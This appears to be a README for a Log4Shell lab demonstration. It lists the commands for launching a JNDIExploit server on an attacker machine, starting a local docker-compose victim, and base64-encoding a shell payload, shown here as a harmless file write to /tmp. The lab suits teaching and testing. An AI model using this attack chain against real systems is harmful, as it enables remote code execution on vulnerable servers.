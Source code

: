 ATTACKER:
1. `cd Log4j/Demonstration/attacker_jndi`

2. `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.0.100 -p 8081`

---

VICTIM:

1. `cd Log4j/Demonstration/victim`

2. `docker-compose up --build`

---
craft a payload that you want to send to the victim, and encode it into base64

1. open cmd
2. type `wsl` if on windows
3. e.g. if your payload is `echo 'This is a malware' > /tmp/malware.txt`, then type `echo “echo ‘This is a malware’ > /tmp/malware.txt” | base64` in the cmd 
4. copy the resulting base64 string: `ZWNobyAnVGhpcyBpcyBhIG1hbHdhcmUnID4gL3RtcC9tYWx3YXJlLnR4dAo=`

![img.png](img.png)

